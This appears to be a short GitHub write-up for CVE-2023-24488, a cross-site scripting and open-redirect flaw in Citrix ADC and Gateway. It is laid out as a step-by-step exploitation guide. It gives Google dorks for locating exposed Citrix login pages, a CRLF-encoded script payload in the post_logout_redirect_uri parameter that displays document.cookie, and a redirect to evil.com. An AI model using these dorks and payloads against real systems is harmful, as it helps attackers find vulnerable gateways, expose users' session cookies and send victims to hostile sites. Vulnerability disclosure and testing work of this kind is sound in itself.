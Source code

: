 # CVE-2023–24488 Citrix Gateway XSS & Open Redirection 

## Description
Cross site scripting vulnerability in Citrix ADC and Citrix Gateway in allows and attacker to perform cross site scripting

### How to exploit
1. Google dork
<html>
<i>inurl:/LogonPoint/tmindex.html</i>
<br></br>
<i>inurl:/vpn/index.html</i> 
</html>

2. Navigate to the endpoint
Example: https://example.com/logon/LogonPoint/tmindex.html

3. Modify the URL by adding the payload and hit enter

Example: https://example.com/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert(document.cookie)%3C/script%3E

4. Once XSS is confirmed, you can check for open-redirection too, just by adding the target domain in the “post_logout_redirect_uri” parameter.

Example: https://example.com/oauth/idp/logout?post_logout_redirect_uri=https://evil.com
